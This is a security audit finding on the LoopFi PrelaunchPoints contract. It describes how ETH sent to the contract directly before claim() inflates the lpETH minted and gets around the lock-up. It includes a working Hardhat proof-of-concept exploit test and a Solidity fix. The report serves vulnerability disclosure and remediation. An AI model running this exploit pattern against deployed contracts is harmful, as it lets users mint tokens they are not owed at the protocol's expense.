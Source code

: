 # LoopFi

## [H-01] Users can still "deposit" in order to mint more `lpETH` than they have locked during the lock-up period

### Impact

The main invariant : "Deposits are active up to the `lpETH` contract and `lpETH`Vault contract are set" is broken.

Even though the deposits are not active anymore, users are still able to gain the benefits from depositing and bypass the LRT lock-up period enforced by the protocol to get more `lpETH` than they are owed.

### Proof of concept

The core idea of the `PrelaunchPoints.sol` contract is that users lock their LRT tokens for a certain period and are able to claim `lpETH` based upon their stake when this period comes to an end.

When administrators call `setLoopAddresses()`, users can't deposit their LRT anymore and the amount of `lpETH` they are able to mint is settled.

These `lpETH` can be claimed using the `claim()` function after the `startClaimDate` set by administrators has been reached.

The issue is when the LRT tokens users are trying to `claim()` from is not ETH nor WETH, the LRT tokens are first swapped to native ETH through the `_fillQuote()` function.

Right after, the contract uses its new ETH balance to mint the corresponding amount of `lpETH` which should only be equal to the amount received from the swap.

<https://github.com/code-423n4/2024-05-loop/blob/main/src/PrelaunchPoints.sol#L252-L264>

```solidity
// Swap LRT to ETH
_fillQuote(IERC20(_token), userClaim, _data);
// Gets the contract's balance
claimedAmount = address(this).balance;
// Mints `lpETH` using the contract's balance
lpETH.deposit{value: claimedAmount}(_receiver);
```

However if a user transfers native ETH to the contract before calling `claim()`, the amount of `lpETH` to mint will include the amount of ETH transfered.

This will end up in the user artificially depositing without having to deal with the lock-up period, thus, minting more `lpETH` tokens than they should have based upon their initial stake.

In the below PoC, we are claiming 100% of our initial deposit but it is possible to claim way less and repeatitively execute the exploit to mint more `lpETH`

The following PoC will demonstrate the steps to take advantage of the issue.

Add this test to `test/PrelaunchPoints0x.test.ts` and execute it with

*Make sure you have added your 0x API token to your `.env` file*

```bash
npx hardhat test --grep "it should claim more"
```

```js
it(`it should claim more`, async function () {
    let token = tokens[2]; // ezETH
    lockToken = (await ethers.getContractAt(
      "IERC20",
      token.address
    )) as unknown as IERC20

    // Impersonate whale
    const depositorAddress = token.whale
    await impersonateAccount(depositorAddress)
    const depositor = await ethers.getSigner(depositorAddress)
    await setBalance(depositorAddress, parseEther("100"))

    // Get pre-lock balances
    const tokenBalanceBefore = await lockToken.balanceOf(depositor)

    // Lock token in Prelaunch
    await lockToken.connect(depositor).approve(prelaunchPoints, sellAmount)
    await prelaunchPoints
      .connect(depositor)
      .lock(token.address, sellAmount, referral)

    // Get post-lock balances
    const tokenBalanceAfter = await lockToken.balanceOf(depositor)
    const claimToken = token.name == "WETH" ? ETH : token.address
    const lockedBalance = await prelaunchPoints.balances(
      depositor.address,
      claimToken
    )
    expect(tokenBalanceAfter).to.be.eq(tokenBalanceBefore - sellAmount)
    expect(lockedBalance).to.be.eq(sellAmount)

    // Activate claiming
    await prelaunchPoints.setLoopAddresses(lpETH, lpETHVault)
    const newTime =
      (await prelaunchPoints.loopActivation()) +
      (await prelaunchPoints.TIMELOCK()) +
      1n
    await time.increaseTo(newTime)
    await prelaunchPoints.convertAllETH()

    // Get Quote from 0x API
    const headers = { "0x-api-key": ZEROX_API_KEY }
    const quoteResponse = await fetch(
      `https://api.0x.org/swap/v1/quote?buyToken=${ETH}&sellAmount=${sellAmount}&sellToken=${token.address}`,
      { headers }
    )

    // Check for error from 0x API
    if (quoteResponse.status !== 200) {
      const body = await quoteResponse.text()
      throw new Error(body)
    }
    const quote = await quoteResponse.json()

    const exchange = quote.orders[0] ? quote.orders[0].source : ""
    const exchangeCode = exchange == "Uniswap_V3" ? 1 : 0

    // Claim
    console.log("Sending 1 ETH to PrelaunchPoints contract");
    let prelaunchAddress = await prelaunchPoints.getAddress();
    // User sends 1 ETH to the contract
    await depositor.sendTransaction({
      to: prelaunchAddress,
      value: ethers.parseEther("1.0"), // Sends exactly 1.0 ether
    });
    await prelaunchPoints
      .connect(depositor)
      .claim(claimToken, 100, exchangeCode, quote.data)

    expect(await prelaunchPoints.balances(depositor, token.address)).to.be.eq(
      0
    )

    const balanceLpETHAfter = await lpETH.balanceOf(depositor)
    expect(balanceLpETHAfter).to.be.gt((sellAmount * 95n) / 100n)
    console.log("LP ETH balance :", await lpETH.balanceOf(depositor.address));
    return;
})
```

### Recommended mitigation steps

Modify the `_fillQuote()` function to return boughtETHAmount and use this amount to mint `lpETH` like such

```solidity
function _fillQuote(IERC20 _sellToken, uint256 _amount, bytes calldata _swapCallData) internal returns(uint256) {
    // Track our balance of the buyToken to determine how much we've bought.
    uint256 boughtETHAmount = address(this).balance;

    require(_sellToken.approve(exchangeProxy, _amount));

    (bool success,) = payable(exchangeProxy).call{value: 0}(_swapCallData);
    if (!success) {
        revert SwapCallFailed();
    }

    // Use our current buyToken balance to determine how much we've bought.
    boughtETHAmount = address(this).balance - boughtETHAmount;
    emit SwappedTokens(address(_sellToken), _amount, boughtETHAmount);
    return boughtETHAmount;
}

function _claim(address _token, address _receiver, uint8 _percentage, Exchange _exchange, bytes calldata _data)
    internal
    returns (uint256 claimedAmount)
{
    uint256 userStake = balances[msg.sender][_token];
    if (userStake == 0) {
        revert NothingToClaim();
    }
    if (_token == ETH) {
        claimedAmount = userStake.mulDiv(totalLpETH, totalSupply);
        balances[msg.sender][_token] = 0;
        lpETH.safeTransfer(_receiver, claimedAmount);
    } else {
        uint256 userClaim = userStake * _percentage / 100;
        _validateData(_token, userClaim, _exchange, _data);
        balances[msg.sender][_token] = userStake - userClaim;

        // At this point there should not be any ETH in the contract
        // Swap token to ETH
        claimedAmount = _fillQuote(IERC20(_token), userClaim, _data);

        lpETH.deposit{value: claimedAmount}(_receiver);
    }
    emit Claimed(msg.sender, _token, claimedAmount);
}
```
